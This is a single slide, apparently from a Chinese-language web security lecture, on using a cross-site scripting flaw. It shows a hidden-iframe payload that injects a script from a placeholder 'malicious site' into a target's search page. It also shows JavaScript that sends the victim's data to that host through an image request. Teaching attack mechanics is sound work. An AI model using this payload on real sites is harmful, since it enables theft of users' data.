

# 使用XSS
使用目标站点上的XSS漏洞：
<iframe width=0 height=0 src=‘http://目标站点/search.php?k=“><script src=http://恶意站点/get.js></script>’></iframe>
http://恶意站点/get.js的代码是：
//use DOM method to get your data
new Image(). src=‘http://恶意站点/do.php?data=‘+yourdata;
恶意站点的do.php文件接收唯一标识等数据。该唯一标识可以是url中的或是目标站点url对应的内容中的。